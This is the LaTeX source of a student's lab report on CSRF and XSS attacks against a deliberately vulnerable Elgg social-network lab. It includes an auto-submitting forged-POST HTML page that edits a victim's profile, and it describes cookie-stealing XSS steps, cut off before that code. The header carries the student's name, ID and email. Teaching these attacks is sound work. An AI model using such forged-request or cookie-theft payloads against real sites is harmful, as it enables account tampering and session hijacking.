\documentclass[a4paper,11pt]{article} 
\addtolength{\hoffset}{-2.25cm}
\addtolength{\textwidth}{4.5cm}
\addtolength{\voffset}{-3.25cm}
\addtolength{\textheight}{5cm}
\setlength{\parskip}{0pt}
\setlength{\parindent}{0in}

\usepackage[square,sort,comma,numbers]{natbib}
\usepackage{blindtext} % Package to generate dummy text
\usepackage{charter} % Use the Charter font
\usepackage[utf8]{inputenc} % Use UTF-8 encoding
\usepackage{microtype} % Slightly tweak font spacing for aesthetics
\usepackage{amsthm, amsmath, amssymb, amsfonts} % Mathematical typesetting
\usepackage{float} % Improved interface for floating objects
\usepackage{hyperref} % For hyperlinks in the PDF
\usepackage{graphicx, multicol} % Enhanced support for graphics
\usepackage{xcolor} % Driver-independent color extensions
\usepackage{pseudocode} % Environment for specifying algorithms in a natural way
\usepackage[ddmmyy]{datetime} % Uses YEAR-MONTH-DAY format for dates
\usepackage{tikz}
\usepackage{listings}
\usepackage{subcaption}
\usepackage{fancyhdr} % Headers and footers
\pagestyle{fancy} % All pages have headers and footers
\fancyhead{}\renewcommand{\headrulewidth}{0pt} % Blank out the default header
\fancyfoot[L]{} % Custom footer text
\fancyfoot[C]{} % Custom footer text
\fancyfoot[R]{\thepage} % Custom footer text
\newcommand{\note}[1]{\marginpar{\scriptsize \textcolor{red}{#1}}} % Enables comments in red on margin

\DeclareMathOperator*{\argmin}{arg\,min}

\newcount\myloopcounter

\definecolor{codegreen}{rgb}{0,0.6,0}
\definecolor{codegray}{rgb}{0.5,0.5,0.5}
\definecolor{codepurple}{rgb}{0.58,0,0.82}
\definecolor{backcolour}{rgb}{0.95,0.95,0.92}

\lstdefinestyle{mystyle}{
    backgroundcolor=\color{backcolour},   
    commentstyle=\color{codegreen},
    keywordstyle=\color{magenta},
    numberstyle=\tiny\color{codegray},
    stringstyle=\color{codepurple},
    basicstyle=\ttfamily\footnotesize,
    breakatwhitespace=false,         
    breaklines=true,                 
    captionpos=b,                    
    keepspaces=true,                 
    numbers=left,                    
    numbersep=5pt,                  
    showspaces=false,                
    showstringspaces=false,
    showtabs=false,                  
    tabsize=2
}
\lstset{style=mystyle}
%----------------------------------------------------------------------------------------


%-------------------------------
%	TITLE VARIABLES (identify your work!)
%-------------------------------

\newcommand{\yourname}{HUANG Kunlun 57878689} % replace YOURNAME with your name
\newcommand{\youremail}{kl.h@my.cityu.edu.hk} % replace YOUREMAIL with your email
\newcommand{\assignmentnumber}{CS5293 Assignment III} % replace X with the lab session number

\begin{document}

%-------------------------------
%	TITLE SECTION (do not modify unless you really need to)
%-------------------------------
\fancyhead[C]{}
\hrule \medskip
\begin{minipage}{0.295\textwidth} 
\raggedright
\footnotesize
\yourname \hfill\\
\youremail
\end{minipage}
\begin{minipage}{0.4\textwidth} 
\centering 
\large 
Report for \assignmentnumber\\ 
\normalsize 

\end{minipage}
\begin{minipage}{0.295\textwidth} 
\raggedleft
\today\hfill\\
\end{minipage}
\medskip\hrule 
\bigskip


{\hypersetup{hidelinks}
\tableofcontents
}
\newpage
%-------------------------------
%	ASSIGNMENT CONTENT (add your responses)
%-------------------------------
\section{Introduction}
This is the solvement for the CS5293 Assignment III. Each Task have a short statment for the result as well as the procedures or the screenshoot or code listing attached.

\section{Cross-Site Request Forgery (CSRF) Attack}

\subsection{Lab Environment}\label{sec:task1}

For this question, 

I set up this host file for visiting the Lab's Web Service because I want to conduct the experiments in a Windows Environment rather than visiting the Web Service in the Seed's VM.

\begin{figure}[h]
    \centering
       
\includegraphics[width=0.99\textwidth]{figures/task1/task1.1.png}
    \caption{Set Up Lab Environment}\label{fig:task1.1}
\end{figure}

\begin{figure}[h]
    \centering
       
\includegraphics[width=0.99\textwidth]{figures/task1/task1.2.png}
    \caption{Set Up Lab Environment Result}\label{fig:task1.2}
\end{figure}

\subsection{Observing HTTP Request}

I use the Firefox's Developer Tools to observe the HTTP Request, as shown in the following figure \ref{fig:task2}. The Request shown in Figure is \ref{fig:task2.1} a GET request, responds with a 200 OK status code, indicating that the request was successful. the parameters is \verb|q=123&search_type=all|. And the Request shown in Figure is \ref{fig:task2.2} a POST request, the form data is Listing \ref{lst:task2}.
\begin{lstlisting}[caption={POST parameters},label={lst:task2},language=XML,breaklines=true]
{
	"__elgg_token": "KxIa1FH5OS-ULIZA8xe0JA",
	"__elgg_ts": "1712394127",
	"username": "123",
	"password": "123"
}
\end{lstlisting}
The server responds with a 302 Found status code, indicating that the request was successful, and the client should redirect to the specified URL. The response header contains the Location field, which specifies the URL to which the client should redirect. The response also contains a Set-Cookie header, which sets a cookie in the client's browser.

\begin{figure}[h]
    \centering
  \subfloat[HTTP GET Result\label{fig:task2.1}]{%
       
\includegraphics[width=0.7\textwidth]{figures/task2/task2.1.png}}
    \hfill
  \subfloat[HTTP POST Result\label{fig:task2.2}]{%
        
\includegraphics[width=0.65\textwidth]{figures/task2/task2.2.png}}
    \hfill
    \caption{Execute Result}\label{fig:task2}
\end{figure}


\subsection{CSRF Attack using GET Request}

First, we observe that when Charlie add a firend with Boby's Behavior, as shown in Figure \ref{fig:task3.1}, the request is a GET request, and the parameters is \verb|friend=42|, which means that Charlie is trying to add Boby as a friend. The server responds with a 200 OK status code, indicating that the request was successful. The response contains the message "Your friend request has been sent", confirming that the request was processed.

\begin{figure}[h]
    \centering
       
\includegraphics[width=0.95\textwidth]{figures/task3/task3.1.png}
    \caption{Add Friend Behavior}\label{fig:task3.1}
\end{figure}

After that, we use the CSRF attack to add a friend with Boby's Behavior, as shown in Figure \ref{fig:task3.2}, the request is a GET request, and the parameters is \verb|add?friend=43|, and we send a fishing webpage as shown in Figure\ref{fig:task3.3} to Alice with the link. When Alice click the link, Alice will add a firend to Body, as shown in figure \ref{fig:task3.2}. 

\begin{figure}[h]
    \centering
  \subfloat[Attractive Fishing Link\label{fig:task3.2}]{%
       
\includegraphics[width=0.45\textwidth]{figures/task3/task3.3.png}}
    \hfill
  \subfloat[Execute Result\label{fig:task3.3}]{%
        
\includegraphics[width=0.45\textwidth]{figures/task3/task3.2.png}}
    \hfill
    \caption{Execute Result}\label{fig:task3}
\end{figure}


\textbf{Conclusion:}

In conclusion, the CSRF attack successfully added Boby as a friend to Alice's account without her knowledge or consent. This attack exploited the lack of anti-CSRF tokens in the web application, allowing an attacker to forge a request that appeared legitimate to the server. This demonstrates the importance of implementing proper CSRF defenses to protect users from unauthorized actions on their accounts.


\subsection{CSRF Attack using POST Request}
First, we observe the profile editing POST Behavior, as shown in Figure \ref{fig:task4.1}, the request is a POST request, and the form data is Listing \ref{lst:task4.2}. We also observe the Alice's ID is \verb|42| when we add Alice as a friend.

\begin{lstlisting}[caption={POST parameters},label={lst:task4.2},language=XML,breaklines=true]
{
	"__elgg_token": "KsHTqfEXuvor5oSbjtEO6A",
	"__elgg_ts": "1712397862",
	"name": "Boby",
	"description": "<p>Hello+World</p>\r\n",
	"accesslevel[description]": "2",
	"briefdescription": "",
	"accesslevel[briefdescription]": "2",
	"location": "",
	"accesslevel[location]": "2",
	"interests": "",
	"accesslevel[interests]": "2",
	"skills": "",
	"accesslevel[skills]": "2",
	"contactemail": "",
	"accesslevel[contactemail]": "2",
	"phone": "",
	"accesslevel[phone]": "2",
	"mobile": "",
	"accesslevel[mobile]": "2",
	"website": "",
	"accesslevel[website]": "2",
	"twitter": "",
	"accesslevel[twitter]": "2",
	"guid": "43"
}
\end{lstlisting}

\begin{figure}[h]
    \centering
  \subfloat[Editing Profile Behavior\label{fig:task4.1}]{%
       
\includegraphics[width=0.45\textwidth]{figures/task4/task4.1.png}}
    \hfill
  \subfloat[Alice's ID Result\label{fig:task4.2}]{%
        
\includegraphics[width=0.45\textwidth]{figures/task4/task4.2.png}}
    \hfill
    \caption{Observations}\label{fig:task4}
\end{figure}

After that, we introduce the html code block \ref{lst:task4.3} in \verb|post.html| in the attack website, and send a fishing webpage to Alice with the link. When Alice click the link, Alice will edit Alice's profile, as shown in figure \ref{fig:task4.3}.
\begin{lstlisting}[caption={POST HTML},label={lst:task4.3},language=HTML,breaklines=true]
<html>
<body>
<h1>This page forges an HTTP POST request.</h1>
<script type="text/javascript">

function forge_post()
{
var fields;
 fields += "<input type='hidden' name='name' value='Alice''>";
 fields += "<input type='hidden' name='description' value='<p>BOBY IS MY HERO</p>\r\n'>";
 fields += "<input type='hidden' name='accesslevel[description] value='2'>";
 fields += "<input type='hidden' name='guid' value='42'>";

 // Create a <form> element.
 var p = document.createElement("form");

 // Construct the form
 p.action = "http://www.csrflabelgg.com/action/profile/edit";
 p.innerHTML = fields;
 p.method = "post";

 // Append the form to the current page.
 document.body.appendChild(p);

 // Submit the form
 p.submit();
 }

 // Invoke forge_post() after the page is loaded.
 window.onload = function() { forge_post();}
 </script>
 </body>
 </html>
\end{lstlisting}
\begin{figure}[h]
    \centering
       
\includegraphics[width=0.7\textwidth]{figures/task4/task4.3.png}
    \caption{Execute Result}\label{fig:task4.3}
\end{figure}

\begin{figure}[h]
    \centering
       
\includegraphics[width=0.7\textwidth]{figures/task4/task4.4.png}
    \caption{User ID in Member Page Source}\label{fig:task4.4}
\end{figure}

\textbf{Answer for Question 1:} 

In this case,
\begin{enumerate}
    \item The ID can be found when we adding the friend, as shown in Figure \ref{fig:task4.2}.
    \item The ID can be found in the source of the html in members page, the ID is marked as \verb|elgg-user-ID|, as shown in Figure \ref{fig:task4.4}.
\end{enumerate}

\textbf{Answer for Question 2:} 

It should work, when the site doesn't check the guid, then that post CSRF request will do the job of modifying the profile. If the site does, then we may need to add an additional CSRF request to get the user's userguid, to dynamically change the userguid, or to brute-force enumerate the possible userguids.

\subsection{Implementing a countermeasure for Elgg}

We can turn on the countermeasure in the Elgg, as shown in Figure \ref{fig:task5.1}.
\begin{figure}[h]
    \centering
       
\includegraphics[width=0.7\textwidth]{figures/task5/task5.1.png}
    \caption{Trun On countermeasure}\label{fig:task5.1}
\end{figure}

The CSRF cannot work after the countermeasure is turned on, as shown in Figure \ref{fig:task5.2} and Figure \ref{fig:task5.3}.
\begin{figure}[h]
    \centering
       
\includegraphics[width=0.7\textwidth]{figures/task5/task5.2.png}
    \caption{Observations}\label{fig:task5.2}
\end{figure}

\begin{figure}[h]
    \centering
       
\includegraphics[width=0.7\textwidth]{figures/task5/task5.3.png}
    \caption{CSRF Fail}\label{fig:task5.3}
\end{figure}

The attacker cannot send these secret tokens in a CSRF attack because:
\begin{enumerate}
    \item The tokens are unique to each session and each form or action. They are generated server-side and are tied to the user's authenticated session.
    \item The tokens are not exposed to third parties due to the Same-Origin Policy enforced by web browsers, which prevents a script on the attacker’s domain from reading the contents or data of another domain.
    \item The tokens change regularly, which means that even if an attacker could somehow access a token, it would likely be invalid by the time they attempt to use it in an attack.
\end{enumerate}
By verifying that every request contains the correct elgg\_ts and elgg\_token, Elgg can ensure that the request originated from its own site and not from an external source, effectively neutralizing the CSRF attack. 


\section{Cross-Site Scripting (XSS) Attack}
\setcounter{subsection}{2}
\subsection{Posting a Malicious Message to Display an Alert Window}

First, we post a message with a malicious script to display an alert window, as shown in Figure \ref{fig:task6.1}. When Boby click the Charlie's Profile, the browsers showes an alert message, as shown in Figure \ref{fig:task6.2}. The result indicates that the script successfully executed in the context of the victim's browser, demonstrating the potential for XSS attacks to execute arbitrary code on a user's machine.
\begin{figure}[h]
    \centering
  \subfloat[Add a Alert Javascript in Charlie's Profile\label{fig:task6.1}]{
  
\includegraphics[width=0.46\textwidth]{figures/task6/task6.1.png}}
    \hfill
  \subfloat[When Boby click the Charlie's Profile, It Alerts.\label{fig:task6.2}]{
  
\includegraphics[width=0.5\textwidth]{figures/task6/task6.2.png}}
    \hfill
    \caption{Observations}\label{fig:task6}
\end{figure}

\subsection{Posting a Malicious Message to Display Cookies}

First, we post a message with a malicious script to display the cookies, as shown in Figure \ref{fig:task7.1}. When Boby click the Charlie's Profile, the browsers showes the Boby's cookies, as shown in Figure \ref{fig:task7.2}. The result indicates that the script successfully accessed and displayed the cookies stored in Boby's browser, which could contain sensitive information such as session tokens or user credentials.
\begin{figure}[h]
    \centering
  \subfloat[Add a Javascript for Displaying the Cookies\label{fig:task7.1}]{
    
\includegraphics[width=0.45\textwidth]{figures/task7/task7.2.png}
    }
    \hfill
  \subfloat[When Boby click the Charlie's Profile, It displays the Boby's cookie.\label{fig:task7.2}]{
    
\includegraphics[width=0.5\textwidth]{figures/task7/task7.1.png}
    }
    \hfill
    \caption{Observations}\label{fig:task7}
\end{figure}

\subsection{Stealing Cookies from the Victim’s Machine}

First, we post a message with a malicious script to exploit the cookies, as shown in Figure \ref{fig:task8.1}. When Boby click the Charlie's Profile, the script will send the Boby's cookies to the attack machine, as shown in Figure \ref{fig:task8.2}. The result indicates that the script successfully exploited the cookies stored in Boby's browser and sent them to the attacker's machine, which could allow the attacker to impersonate Boby and access his account without authorization.
\begin{figure}[h]
    \centering
  \subfloat[Add a Javascript for exploiting the Cookies\label{fig:task8.1}]{
